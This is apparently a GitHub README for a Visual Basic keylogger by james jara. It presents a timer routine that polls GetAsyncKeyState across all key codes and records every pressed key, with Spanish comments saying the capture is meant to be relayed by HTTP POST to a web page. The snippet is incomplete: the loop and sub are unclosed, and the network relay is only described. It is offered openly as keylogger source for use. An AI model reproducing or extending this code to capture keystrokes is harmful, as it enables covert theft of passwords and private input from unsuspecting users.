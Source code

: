 visualbasic-Keylogger
=====================

Labels
VisualBASIC, VisualStudio, keylogger, jamesjara

Keylogger for vB

Keylogger example in visual basic by james jara

Hooks the inputs of an anyplace and relays the keystrokes.  

```vb
Private Sub Timer1_Timer()
' el timer detecta cada cierto tiempo la tecla
Dim numerodeteclas As Integer
For numerodeteclas = 0 To 255

'GetAsyncKeyState detecta el estado de la tecla presionada
If GetAsyncKeyState(numerodeteclas) = -32767 Then

'Aqui envia los datos por medio de http post a una pagina web
' ahorita los escirbe en el textbox para ejemplo
Text1.Text = Text1.Text + Chr(numerodeteclas)

End If
```
